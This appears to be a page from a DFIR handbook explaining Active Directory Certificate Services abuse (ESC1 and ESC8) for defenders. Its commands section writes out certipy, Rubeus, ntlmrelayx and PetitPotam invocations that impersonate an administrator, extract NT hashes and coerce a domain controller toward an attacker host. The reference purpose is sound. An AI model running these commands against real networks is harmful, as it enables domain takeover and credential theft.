

repository: DFIDwiz-sketch/dfir-handbook · page: adversary/adcs-abuse/index.html · generator: mkdocs

---
title: AD Certificate Services Abuse (ESC1 / ESC8)
tags:
  - technique
  - adversary
  - credential-access
  - privilege-escalation
---

# AD Certificate Services Abuse (ESC1 / ESC8)

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1649 (Steal or Forge Authentication Certificates) · **Tactic:** Credential Access / Privilege Escalation / Persistence · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    Active Directory Certificate Services (ADCS) issues certificates that can be used to **log on with Kerberos (PKINIT)**. If a certificate template or the CA itself is misconfigured, a low-privileged user can obtain a certificate **that says they are a Domain Admin** — then use it to get a TGT and the admin's NT hash. The 2021 "Certified Pre-Owned" research named these misconfigurations **ESC1 – ESC8** (later ESC9 – ESC16). Certificates are also excellent **persistence**: they survive password resets and are valid for a year or more by default.

## How the attack works

```mermaid
flowchart LR
    U[Low-priv domain user] --> F[Find vulnerable templates<br/>Certify / Certipy]
    F -->|ESC1| R1[Request cert from template that<br/>lets enrollee supply SAN = administrator]
    U -->|ESC8| C[Coerce DC to authenticate<br/>PetitPotam / PrinterBug]
    C --> RL[Relay NTLM to CA web enrollment<br/>/certsrv over HTTP]
    RL --> R2[Cert issued for DC01$]
    R1 --> P[PKINIT: TGT as administrator]
    R2 --> P2[PKINIT: TGT as DC01$ → DCSync]
    P --> H[UnPAC-the-hash → NT hash]
```

| ESC | Misconfiguration (short) | Typical result |
|---|---|---|
| **ESC1** | Template allows **enrollee-supplied subject/SAN** + Client Authentication EKU + low-priv enrol + no manager approval | Cert for any user, incl. Domain Admin |
| ESC2 / ESC3 | Any-purpose EKU / Enrollment Agent templates enrollable by low-priv users | Request certs on behalf of others |
| ESC4 | Low-priv users can **edit** a template | Make it ESC1 |
| ESC6 | CA flag `EDITF_ATTRIBUTESUBJECTALTNAME2` set | Any template becomes ESC1 |
| ESC7 | Low-priv users have CA Manager/Officer rights | Approve own requests |
| **ESC8** | **HTTP web enrollment** without EPA/HTTPS | NTLM relay → cert as the coerced machine |

## Attacker tooling / commands

```text
# Discovery
Certify.exe find /vulnerable
certipy find -u user@corp.local -p '...' -dc-ip 10.0.0.1 -vulnerable

# ESC1 request (recognition only)
certipy req -u user@corp.local -ca CORP-CA -template VulnTemplate -upn administrator@corp.local

# Use the certificate
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1      # TGT + NT hash
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx /getcredentials

# ESC8
ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp --adcs --template DomainController
PetitPotam.py attacker_ip dc01
```
